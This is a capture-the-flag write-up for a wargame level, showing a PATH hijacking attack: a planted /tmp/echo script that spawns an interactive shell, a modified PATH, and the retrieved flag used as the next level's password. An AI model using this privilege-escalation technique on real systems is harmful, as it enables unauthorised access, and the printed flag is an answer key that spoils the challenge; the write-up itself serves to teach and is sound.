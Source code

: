 # Level03 Writeup

## Objective
Gain access to the `flag03` user and retrieve the password for `level04`.

## Steps Taken

1. **Binary Analysis**  
   Upon logging in as `flag03`, I discovered that I could execute a binary that internally called:
   ```bash
   /bin/echo exploit me
   ```
   I analyzed this binary using an online disassembler at [Dogbolt.org](https://dogbolt.org/) and confirmed that the program was making a direct system call to `echo`.

2. **Environment Vulnerability**  
   I realized that the program did not use an absolute path to `echo`, meaning it was relying on the `PATH` environment variable. This opened the door for a classic **PATH hijacking** attack.

3. **Create a Malicious Echo Script**  
   I created a fake `echo` script in `/tmp`:
   ```bash
   cat > /tmp/echo <<'EOF'
   #!/bin/sh
   /bin/sh -i
   EOF
   chmod +x /tmp/echo
   ```

4. **Exploit the Binary**  
   I then modified the `PATH` to ensure `/tmp` was searched before `/bin`:
   ```bash
   export PATH="/tmp:$PATH"
   ```
   Finally, I ran the vulnerable binary again. Since it called `echo`, and I had placed a malicious version of `echo` in `/tmp`, it executed **my** script instead.

5. **Shell Access**  
   The malicious `echo` spawned an interactive shell under the `flag03` user.

6. **Retrieve the Flag**  
   Once I had a shell, I ran:
   ```bash
   getflag
   ```
   This printed the flag (password for the next level):
   ```
   0efd3b7caa7cbd2584913a536b1da494
   ```

## Result
Successfully retrieved the password for `level04`:  
```
0efd3b7caa7cbd2584913a536b1da494
```
